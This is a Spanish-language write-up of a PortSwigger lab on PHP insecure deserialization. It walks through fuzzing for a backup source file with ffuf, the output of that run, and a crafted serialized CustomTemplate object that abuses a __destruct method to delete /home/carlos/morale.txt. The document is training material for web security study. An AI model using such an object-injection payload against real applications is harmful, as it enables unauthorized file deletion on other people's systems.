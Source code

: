 ```yaml
---
title: "Arbitrary object injection in PHP"
description: "Laboratorio de Portswigger sobre Insecure Deserialization"
date: 2024-12-31 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Insecure Deserialization
tags:
  - Portswigger Labs
  - Insecure Deserialization
  - Arbitrary object injection in PHP
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en `serialización` y es vulnerable a la `inyección arbitraria de objetos`. Para `resolver` el laboratorio, debemos `crear e inyectar un objeto serializado malicioso` para `eliminar` el archivo `morale.txt` del directorio personal de `Carlos`. Necesitaremos `obtener acceso` al `código fuente` para `resolver` este `laboratorio`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-4/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-4/image_2.png)

Si hacemos `Ctrl + u` e `inspeccionamos` el `código fuente` de la web, vemos como en la `parte inferior` hay un `comentario` que hace alusión a la ruta `/libs/CustomTemplate.php`

![](/assets/img/Insecure-Deserialization-Lab-4/image_3.png)

`Fuzzeamos` en busca de `archivos` de `backup` y `encontramos` un `archivo` llamado `CustomTemplate.php~`

```
# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt -u https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
.php~                   [Status: 200, Size: 1130, Words: 277, Lines: 39, Duration: 55ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
:: Progress: [2450/2450] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

Si accedemos a `https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplate.php~` podemos ver el `código` del `archivo php`. Si nos fijamos bien en el código vemos los métodos `__destruct()` y `__construct()`, los cuales son `métodos mágicos`, en `PHP` es fácil reconocerlos porque llevan `__` siempre en su nombre. Los métodos mágicos en PHP son funciones especiales predefinidas que se `ejecutan automáticamente` en `respuesta` a ciertos `eventos` o `interacciones` con un `objeto`. En este caso el método que nos interesa es el método mágico `__destruct`, que `borra` el `archivo` que esté en la variable `lock_file_path`

![](/assets/img/Insecure-Deserialization-Lab-4/image_4.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`, al hacerlo vemos que el `parámetro session` contiene un `objeto`

![](/assets/img/Insecure-Deserialization-Lab-4/image_5.png)

`Obtenemos` la `longitud` de `/home/carlos/morale.txt`

```
# echo -n '/home/carlos/morale.txt' | wc -c 
```

`Obtenemos` la `longitud` de `lock_file_path`

```
# echo -n 'lock_file_path' | wc -c 
```

`Obtenemos` la `longitud` de `CustomTemplate`

```
# echo -n 'CustomTemplate' | wc -c
```

`Modificamos` el `objeto` cambiando la `clase` a `CustomTemplate` y `añadiéndole` el parámetro `lock_file_path`, de forma que si el archivo `/home/carlos/morale.txt` existe lo borre

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Nos dirigimos al `navegador` y pulsamos `Ctrl + Shift + i`, pegamos el nuevo valor para `session` y `refrescamos` la `web` pulsando `F5`. Si todo ha funcionado correctamente deberíamos haber `borrado` el `archivo` y `completado` el `laboratorio`

![](/assets/img/Insecure-Deserialization-Lab-4/image_6.png)
